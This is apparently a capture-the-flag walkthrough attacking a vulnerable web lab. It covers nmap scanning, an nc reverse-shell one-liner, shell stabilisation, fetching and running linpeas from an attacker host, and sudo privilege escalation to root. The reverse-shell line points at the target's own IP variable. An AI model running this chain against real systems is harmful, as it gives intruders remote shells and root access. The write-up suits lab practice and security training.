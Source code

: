 
# Vulnerable Web Application Attacking

```bash
export IP=
export PORT=
export HOSTIP=
```

1. Nmap Scanning:
```bash
nmap -p- -sC -sV -oN nmap/initial $IP 
```


2. Get a reverse Shell:

Start a listener:
```bash
nc -lnvp $PORT
```


[Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```

3. Stabilize shell:

[Poor Man's Pentest](https://github.com/JohnHammond/poor-mans-pentest/blob/master/stabilize_shell.sh)

```bash
# On remote
python3 -c "import pty; pty.spawn('/bin/bash')"

# ctrl z
stty raw -echo
fg
export TERM=xterm
```

## User flag

```bash
cat ~/flag.txt
```

4. Privilege Escalation

Host linpeas.sh on attacker machine
```bash
python3 -m http.server 1337
```

Download and run linpeas
```bash
cd /dev/shm # Hiding lol
wget "$HOSTIP/linpeas.sh"
chmod +x linpeas.sh
./linpeas.sh
```

Linpeas will tell us that this user can run `sudo` without a password!
Thats our ticket in!

```bash
sudo su
```

And we're root!

### Root Flag:

```bash
cat /root/flag.txt
```

